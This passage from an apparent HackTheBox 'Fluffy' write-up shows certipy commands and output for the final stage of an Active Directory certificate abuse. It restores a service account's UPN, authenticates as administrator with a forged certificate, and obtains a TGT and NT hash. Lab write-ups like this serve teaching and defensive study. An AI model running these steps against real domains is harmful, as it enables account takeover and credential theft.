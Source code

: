 > **Command Explanation:**
- `export KRB5CCNAME`: Set the Kerberos credential cache
- `req`: Request a certificate
- `-ca`: Certificate authority name
- `-template`: Certificate template to use
{: .prompt-info}

### Restore Original UPN

Let's restore the original UPN: 

```bash
certipy account -k -dc-ip $IP -target $FQDN -user 'ca_svc' -upn 'ca_svc@fluffy.htb' update
```

**Results:**
```bash
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc@fluffy.htb
[*] Successfully updated 'ca_svc'
```

### Certificate-based Authentication

Now we can use the certificate to authenticate as the administrator:

```bash
certipy auth -pfx administrator.pfx -dc-ip $IP -domain $DOMAIN
```

**Results:**
```bash
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
File 'administrator.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```

> **Command Explanation:**
- `auth`: Authenticate using certificate
- `-pfx`: Certificate file
- `-dc-ip`: Domain controller IP
- `-domain`: Domain name
{: .prompt-info}
